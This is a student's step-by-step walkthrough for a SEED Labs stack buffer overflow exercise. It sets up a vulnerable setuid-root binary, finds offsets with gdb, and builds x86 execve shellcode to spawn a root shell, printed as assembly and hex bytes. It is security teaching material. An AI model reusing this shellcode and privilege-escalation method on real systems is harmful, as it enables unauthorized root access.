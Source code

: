 # Buffer Overflow

![](https://scontent.xx.fbcdn.net/v/t1.15752-9/287382801_1012708796106310_3393263325642954415_n.png?stp=dst-png_s480x480&_nc_cat=104&ccb=1-7&_nc_sid=aee45a&_nc_ohc=OEfE7TGvRbcAX9Lwnqo&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AVJaBQXkeTQc3PbfYqHvYtXJEhUZnHG_3LUF_EvomUPjPQ&oe=62D10C9F)


![](https://scontent.xx.fbcdn.net/v/t1.15752-9/284937695_8397444896947802_7098575315767581280_n.png?stp=dst-png_p206x206&_nc_cat=109&ccb=1-7&_nc_sid=aee45a&_nc_ohc=h_6gXJaQYfsAX87Bvx-&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AVKzKVJLo4b6r2DPyj6_3K_JmVtxA9HT29wY-DC3cdIulw&oe=62D35345)

![](https://scontent.xx.fbcdn.net/v/t1.15752-9/285364149_1209590779795497_2438689606973803339_n.png?stp=dst-png_p206x206&_nc_cat=105&ccb=1-7&_nc_sid=aee45a&_nc_ohc=FEFsuA50wucAX_aWkCe&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AVKyLOeKgkxINCyuvAc6lFEvPwXVLGFWX6CUa5Cp0N2uNA&oe=62D361AE)


# GDB: Important Points
- ```next``` move to the next instruction
- ```stepi``` move to the next assembly instruction
- ```disas [Function]``` disassebles a specific function
- ```break [Function] ``` or ```break *address``` set a breakpoint
- Regarding setting breakpoints and getting the correct value of ```ebp``` see lecture **buffer_overflow_demo.mp4** (from 11:50)
    - Set breakpoints appropriately for getting the correct value of stack pointer ```ebp```
    - After getting to that breakpoint, it is better to use a ```next``` command to make sure that the value of ```ebp``` is updated properly

# Assembly: Important Points
- The return value of a function is stored in ```eax```


# Task
Prepare a payload (e.g badfile) which will cause the program to call the the *secret* function and then open a shell with root's privilege when executed by other users



# Step by Step Procedure

## Step 0: Installing SEED VM on Virtual Box

Install Virtual Box and then SEED-Ubuntu20.04 from [this link](https://github.com/seed-labs/seed-labs/blob/master/manuals/vm/seedvm-manual.md)

## Step 1: Setting up the environment and compiling target C file  
- Set permissions
```bash
sudo sysctl -w kernel.randomize_va_space=0
sudo ln -sf /bin/zsh /bin/sh
```
- Set user to root
```
sudo su
```
- Compiling the target file as root
```
gcc -m32 -o stack -z execstack -fno-stack-protector stack.c
sudo chown root stack
sudo chmod 4755 stack
```
- Set user back to seed
```
su seed
```
- Compiling the target file again as seed with "-g" for gdb
```
gcc -m32 -o stack_dbg -g -z execstack -fno-stack-protector stack.c
```

## Step 2: Getting the return address and buffer address using gdb

```bash
# run gdb
$ gdb stack_dbg
# set a breakpoint at foo
gdb-peda$ b foo
gdb-peda$ run
# set a breakpoint ar bof
gdb-peda$ b bof
gdb-peda$ continue
gdb-peda$ next
# print the value of ebp register (stack fram pointer)
# i.e. top of the current stack frame I guess
gdb-peda$ p $ebp
$1 = (void*) 0xffffb828

# print the address of buffer
gdb-peda$ p &buffer     
$2 = (char(*)[614])0xffffb592

# print in decimal (/d) the address difference
gdb-peda$ p /d 0xb828 - 0xb592
$3 = 662

# get the starting address of the function secret
gdb-peda$ disas secret
Dump of assembler code for function secret:
   0x565562e5 <+0>:     endbr32
   0x565562e9 <+4>:     push ebp
   ...
End of assembler dump.
```


## Step 1: Creating *payload*/*badfile*
- The payload or the badfile is usually written in assembly 
- The corresponding assembly code is translated to machine code
- The machine code is used to create a *badfile*
- Our intention is to **make a call to the function *secret*** and **open a shell with root privilege**


### Step 1.1: Make a call to the function *secret*
```x86asm
mov ebx, 0x565562e5
call ebx
```
- ```0x565562e5``` is the address of the function ```secret``` which we figured out using GDB


### Step 1.2: Open a shell with root privilege
```x86asm
xor  eax, eax 
push eax          ; Use 0 to terminate the string
push "//sh"
push "/bin"
mov  ebx, esp     ; Get the string address

; Construct the argument array argv[]
push eax          ; argv[1] = 0
push ebx          ; argv[0] points "/bin//sh"
mov  ecx, esp     ; Get the address of argv[]

; For environment variable 
xor  edx, edx     ; No env variables 

; Invoke execve()
xor  eax, eax     ; eax = 0x00000000
mov   al, 0x0b    ; eax = 0x0000000b
int 0x80
```

The final output should look something like this
```x86asm
section .text
  global _start
    _start:
      mov ebx, 0x565562e5
      call ebx

      ; code to open a shell
      xor  eax, eax 
      push eax          
      push "//sh"
      push "/bin"
      mov  ebx, esp     
      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
      ; For environment variable 
      xor  edx, edx     ; No env variables 
      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

## Step 2: Generating Machine Code for payload

### Method 1: 

- Use the following two commands to generate the machine code

```properties
nasm -f elf32 <asm_filename>.s -o <asm_filename>.o
xxd -p -c 20 <asm_filename>.o
```

- Copy the machine code and format it using **convert.py**. Paste the copied machine code into the variable ```ori_sh``` on line no 5

```python
ori_sh ="""
bbe5625556ffd331
c050682f2f7368682f62696e89e3505389e131d2
31c0b00bcd80
"""
```

- Run **convert.py** to get the formattd machine code


### Method 2: 
- Use [this link](https://defuse.ca/online-x86-assembler.htm) to directly generate formatted machine code. Only use ```mov```, ```push```, ```xor``` etc. commands


### Machine code for opening a shell:
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80" 
```
